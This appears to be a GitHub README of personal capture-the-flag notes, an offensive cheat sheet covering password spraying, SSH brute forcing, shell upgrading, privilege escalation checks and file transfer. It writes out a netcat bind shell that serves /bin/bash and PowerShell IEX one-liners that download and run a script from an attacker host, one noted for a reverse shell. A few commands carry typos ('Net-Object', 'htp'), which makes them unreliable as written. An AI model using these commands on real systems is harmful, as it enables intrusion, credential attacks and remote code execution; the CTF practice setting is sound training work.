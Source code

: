 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs
<p> -----------------------------------------------------------------------------------------
<p> Windows & *nix:
<p> password spraying:
<p> - crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> bruteforce (more options may be required, example used was SSH module):
<p> - medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] 
<p> -----------------------------------------------------------------------------------------
</p>
<p> upgrade shell using python pty library and adds auto complete for steps 2+ :
<p> 1 - python -c 'import pty;pty.spawn("/bin/bash")'
<p> 2 - CTRL z
<p> 3 - stty raw -echo
<p> 4 - fg <enter key>
<p> 5 - export TERM=xterm
<p> -----------------------------------------------------------------------------------------
<p> general notes:
<p> known hosts ssh file will show all hosts the host has SSH'd into

<p> - command to reset a broke terminal session
<p> reset

<p> - mysql syntax for navigation:
<p> show databases; (shows available databases)
<p> use [database name]; (selects database to use)
<p> show tables; (shows tables in database)
<p> describe [table name]; (shows more information on values inside table)
<p> select [table value] from [table]; (shows items inside the table values of the table)
  
<p> - file upload (works with powershell and linux):
<p> curl http://[ip]:[port]/[file] -output [file]






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
